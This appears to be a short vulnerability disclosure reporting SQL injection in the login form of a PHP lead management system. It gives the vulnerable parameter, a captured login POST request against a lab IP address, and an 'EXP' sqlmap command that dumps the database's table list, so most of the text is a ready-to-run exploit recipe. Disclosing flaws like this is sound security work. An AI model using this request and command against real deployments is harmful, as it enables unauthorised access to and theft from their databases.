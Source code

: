 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $username

The process of vulnerability discovery is as follows：

![image-20221219054716765](C:\markdown\images\image-20221219054716765.png)

sqlmap.txt:

```
POST /penglead/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://192.168.152.128/penglead/login.php
Cookie: PHPSESSID=m6ttpu8qbr1raki0mnj605hpj4
Content-Length: 90
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.0 Safari/537.36
Host: 192.168.152.128
Connection: Keep-alive

login=&password=123&username=123
```

EXP:

```
sqlmap.py -r sqlmap.txt -p username --dbms=mysql -D penglead --tables
```

<img src="C:\markdown\images\image-20221219054337264.png" alt="image-20221219054337264" style="zoom:80%;" />

